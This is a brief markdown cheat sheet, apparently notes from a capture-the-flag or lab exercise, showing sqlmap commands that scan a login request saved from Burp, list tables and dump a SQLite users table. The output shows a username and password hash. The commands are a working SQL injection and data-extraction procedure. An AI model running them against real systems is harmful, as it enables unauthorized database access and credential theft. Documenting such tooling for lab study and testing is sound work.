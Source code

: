# SQLMap

Simple initial scan using request file saved from Burp:

```
sqlmap -r login.req --level=5 --risk=3
```

List tables and add more threads to speed up:

```
sqlmap -r login.req --level=5 --risk=3 --tables --dbms=SQLite --threads 10
```

Dump all rows from table users:

```
sqlmap -r login.req --level=5 --risk=3 -T users --dump --dbms=SQLite --threads=10

Table: users
[1 entry]
+----+---+--------+----------+----------------------------------+
| id | 1 | active | username | password                         |
+----+---+--------+----------+----------------------------------+
| 1  | 1 | 1      | RickA    | fdc8cd4cff2c19e0d1022e78481ddf36 |
+----+---+--------+----------+----------------------------------+
```
